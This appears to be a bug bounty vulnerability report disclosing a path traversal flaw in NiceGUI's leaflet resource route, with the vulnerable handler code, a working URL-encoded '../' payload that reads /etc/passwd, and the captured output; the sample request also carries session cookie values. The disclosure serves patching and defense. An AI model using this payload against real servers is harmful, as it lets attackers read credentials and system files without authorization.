

## Name

> NiceUI: Local File Inclusion in NiceUI leaflet component

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Description

A local file inclusion is present in the NiceUI leaflet component when requesting resource files under the `/_nicegui/{__version__}/resources/{key}/{path:path}` route.

## Proof of Concept

In [route](https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/nicegui.py#L98) `/_nicegui/{__version__}/resources/{key}/{path:path}` is used for [serving CSS and JS resources locally](https://github.com/zauberzeug/nicegui/commit/b465af3bb7a825c89ca6562e5eb7ebfeee5bb589). The `path` parameter in url is not sanitized before appended to base path, an attacker can use `..` to escape base directory and locate any file on system which will be sent back to the attacker, causing local file inclusion issue.

```
@app.get(f'/_nicegui/{__version__}' + '/resources/{key}/{path:path}')
def _get_resource(key: str, path: str) -> FileResponse:
    if key in resources:
        filepath = resources[key].path / path
        if filepath.exists():
            headers = {'Cache-Control': 'public, max-age=3600'}
            media_type, _ = mimetypes.guess_type(filepath)
            return FileResponse(filepath, media_type=media_type, headers=headers)
    raise HTTPException(status_code=404, detail=f'resource "{key}" not found')
```

However, the `resources` is only [initialized](https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/elements/leaflet.py#L40) by `ui.leaflet` component. To exploit the bug, a developer should use `leaflet` component in web pages so that the route is activated. Consider following [code snippet](https://nicegui.io/documentation/leaflet#leaflet_map) from official document.

Firstly, install nicegui using `python pip`:

```
pip install nicegui
```
Then, save following code to `main.py`
```
from nicegui import ui

m = ui.leaflet(center=(51.505, -0.09))
ui.label().bind_text_from(m, 'center', lambda center: f'Center: {center[0]:.3f}, {center[1]:.3f}')
ui.label().bind_text_from(m, 'zoom', lambda zoom: f'Zoom: {zoom}')

with ui.grid(columns=2):
    ui.button('London', on_click=lambda: m.set_center((51.505, -0.090)))
    ui.button('Berlin', on_click=lambda: m.set_center((52.520, 13.405)))
    ui.button(icon='zoom_in', on_click=lambda: m.set_zoom(m.zoom + 1))
    ui.button(icon='zoom_out', on_click=lambda: m.set_zoom(m.zoom - 1))

ui.run()
```
Run the application, it will listen on `http://127.0.0.1:8080` by default.

```
python main.py
```
Open the webpage in browser and intecept requests using burp suite or chrome devtools. We can capture following request:

```
GET http://10.15.0.171:8080/_nicegui/1.4.20/resources/763203f93f18a3f1f5d14f74197580e4/leaflet/leaflet.js HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: 
Pragma: no-cache
Referer: http://10.15.0.171:8080/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Postman-Token: 73930b8b-6cc7-4511-aff9-ff25d835c300
Host: 10.15.0.171:8080
Accept-Encoding: gzip, deflate
Connection: close
```
Modify the request by change `leaflet/leaflet.js` part to `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` which is `../../../../../etc/passwd` url-encoded content.

```
GET http://10.15.0.171:8080/_nicegui/1.4.20/resources/763203f93f18a3f1f5d14f74197580e4/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64 HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: _xsrf=2|87674a0e|961e2a9f73992956aae527a8f55167fb|1706518977; _gitlab_session=64bf3e7143f852d8e3646970f8c7b3df; fakesession=hello
Pragma: no-cache
Referer: http://10.15.0.171:8080/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Postman-Token: 73930b8b-6cc7-4511-aff9-ff25d835c300
Host: 10.15.0.171:8080
Accept-Encoding: gzip, deflate
Connection: close
```

Or just open link: `http://10.15.0.171:8080/_nicegui/1.4.20/resources/763203f93f18a3f1f5d14f74197580e4/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` in browser(change ip and port to your server).

The output is the contents of the `/etc/passwd` file:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
...
```



## Impact

Any file on the backend filesystem can be read by an attacker with access to the NiceUI leaflet website.


## Reference

[https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67](https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67)

## Occurrences

[https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/nicegui.py#L98](https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/nicegui.py#L98)
